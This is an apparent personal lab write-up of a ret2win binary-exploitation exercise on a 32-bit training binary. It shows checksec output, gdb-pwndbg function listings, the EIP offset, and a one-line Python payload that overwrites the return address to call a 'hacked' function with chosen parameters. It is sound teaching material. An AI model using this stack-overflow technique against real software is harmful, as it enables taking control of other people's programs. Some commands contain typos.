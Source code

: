 [[Binary Exploitation/03-04 Ret2Win/04 Functions parameters/x86/Source Code|Source Code]]

#x86 #ret2win_params 

### Basic File Checks

1. File -> `./ret2win_params: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=57b54d38f04bf11e85baa1619dc95228d8fd14b1, for GNU/Linux 3.2.0, not stripped`
2. checksec ->
```python
[*] '/root/binary_exploitation/04/32/ret2win_params'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Now after looking at ghidra we can tell that the parameters it wants are `0xc0debabe` and `0xdeadbeef` 
So let's do manual exploitation

### Manual exploitation

Let's find the address of the hacked function using gdb-pwndbg

```python
gdb-pwndbg ./ret2win_params
info functions
```

Result:

```python
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049030  printf@plt
0x08049040  puts@plt
0x08049050  __libc_start_main@plt
0x08049060  __isoc99_scanf@plt
0x08049070  _start
0x080490b0  _dl_relocate_static_pie
0x080490c0  __x86.get_pc_thunk.bx
0x080490d0  deregister_tm_clones
0x08049110  register_tm_clones
0x08049150  __do_global_dtors_aux
0x08049180  frame_dummy
0x08049182  hacked
0x080491d5  register_name
0x0804922b  main
0x08049247  __x86.get_pc_thunk.ax
0x08049250  __libc_csu_init
0x080492b0  __libc_csu_fini
0x080492b1  __x86.get_pc_thunk.bp
0x080492b8  _fini
```

The info functions shows all the functions and we can find the function that we want from there

The address of the hacked function is `0x08049182`

Let's find the offset using GDB-PWNDBG

```python
cylic 100
gb-pwndbg ./ret2win-params
```

Result:

```python
*EAX  0x6f
*EBX  0x61616166 ('faaa')
 ECX  0x0
*EDX  0xf7fc2540 ◂— 0xf7fc2540
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049250 (__libc_csu_init) ◂— push ebp
*EBP  0x61616167 ('gaaa')
*ESP  0xffffcf00 ◂— 'iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
*EIP  0x61616168 ('haaa')
```

The offset to the EIP is 28 which can be found with `cyclic -l <EIP>`


Now let's do a little bit of python manual exploit


```python
print 28 * b'a' + '\x82\x91\x04\x08' + b'aaaa' + '\xbe\xba\xde\xc0' + '\xef\xbe\xad\xde'
```

So we are doing the offset to the EIP then the address of the hacked function then the padding for the other return pointer inside of the hacked function and then the actual parameters

###  Automated exploit

[[Binary Exploitation/03-04 Ret2Win/04 Functions parameters/x86/Python Script|Python Script]]